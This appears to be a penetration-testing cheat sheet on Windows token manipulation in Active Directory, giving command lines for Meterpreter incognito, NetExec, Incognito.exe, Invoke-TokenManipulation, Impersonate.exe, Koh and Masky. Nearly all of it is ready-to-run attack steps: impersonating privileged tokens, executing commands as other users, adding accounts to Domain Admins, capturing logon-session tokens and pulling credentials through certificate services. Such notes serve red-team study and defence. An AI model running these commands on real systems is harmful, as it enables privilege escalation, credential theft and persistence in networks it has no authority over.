 # Token Manipulation

## Tools: Meterpreter , CrackMapExec/Netexec , irs.exe , incognito.exe , masky

#### 1) Meterpreter

 - use incognito

 - impersonate_token DOMAIN\\USER

#### 2) CrackMapExec/Netexec

 - netexec smb IP -u USER -p PASSWORD -M impersonate

#### 3) irs.exe

 - irs.exe list

 - irs.exe exec --pid PID --command COMMAND

#### 4) Incognito.exe

 - .\incognito.exe list_tokens -u

 - ./incognito.exe execute -c "DOMAIN\USER" powershell.exe

### These techniques can give us further privileged ACLs to gain more cleartext credentials or creating persistent mechanisms

## Extract credentials with certificate authentication (ADCS required)

 - masky -d DOMAIN -u USER (-p PASSWORD || -k || -H HASH) -ca CERTIFICATE_AUTHORITY IP

### With this technique, we can perform Lateral movement via NTLM, Kerberos or Certificate.

### List all tokens

##### List all tokens on the machine

    Invoke-TokenManipulation -ShowAll

##### List all unique, usable tokens on the machine

    Invoke-TokenManipulation -Enumerate

### Start a new process with a specific token

##### Token of a user

    Invoke-TokenManipulation -ImpersonateUser -Username "domain\user1"

##### Token of a process

    Invoke-TokenManipulation -CreateProcess "C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -ProcessId 500

## Token impersonation with command execution and user addition

### List available tokens, and find an interesting token ID

    ./Impersonate.exe list

### With only SeImpersonatePrivilege, if a privileged user's token is present on the machine, it is possible to run code on the domain as him and add a new user in the domain (and add him to the Domain Admins by default):

    ./Impersonate.exe adduser <token_id> user1 Password123 <group_to_add_to> \\dc.domain.local

### With SeImpersonatePrivilege and SeAssignPrimaryToken, if a privileged user's token is presents on the machine, it is possible to execute comands on the machine as him:

    ./Impersonate.exe exec <token_id> <command>

## Token impersonation via session leaking

Basically, as long as a token is linked to a logon session (the ReferenceCount != 0), the logon session can't be closed, even if the user has logged off.
AcquireCredentialsHandle() is used with a session LUID to increase the ReferenceCount and block the session release. Then InitializeSecurityContext() and AcceptSecurityContext() are used to negotiate a new security context, and QuerySecurityContextToken() get an usable token.

### Server

##### List logon session
 
    Koh.exe list

##### Monitor logon session with SID filtering

    Koh.exe monitor <SID>

##### Capture one token per SID found in new logon sessions

    Koh.exe capture

### Client part (only available as Cobalt Strike BOF for the moment)

##### List captured tokens

    koh list

##### List group SIDs for a captured token

    koh groups <LUID>

##### Impersonate a captured token by specifying the session LUID

    koh impersonate <LUID>

##### Release all captured tokens

    koh release all

## Tokens and ADCS

With administrative access to a (or multiple) computer, it is possible to retrieve the different process tokens, impersonate them and request CSRs and PEM certificate for the impersonated users.

    .\Masky.exe /ca:<CA_server_FQDN\CA_name> /template:<template_name> /output:./output.txt

# Python

##### List available tokens, and find an interesting token ID

    nxc smb -u user1 -p password -M impersonate -o MODULE=list

##### With only SeImpersonatePrivilege, if a privileged user's token is present on the machine, it is possible to run code on the domain as him and add a new user in the domain (and add him to the Domain Admins by default):

    nxc smb -u user1 -p password -M impersonate -o MODULE=adduser TOKEN=<token_id> CMD="user2 password 'Domain Admins' \\dc.domain.local"

##### With SeImpersonatePrivilege and SeAssignPrimaryToken, if a privileged user's token is present on the machine, it is possible to execute commands on the machine as him:

    nxc smb -u user1 -p password -M impersonate -o MODULE=exec TOKEN=<token_id> CMD=<command>

### Tokens and ADCS

With administrative access to a (or multiple) computer, it is possible to retrieve the different process tokens, impersonate them and request CSRs and PEM certificate for the impersonated users.

    masky -d domain.local -u user1 -p <password> -dc-ip <DC_IP> -ca <CA_server_FQDN\CA_name> -o <result_folder> <targets>
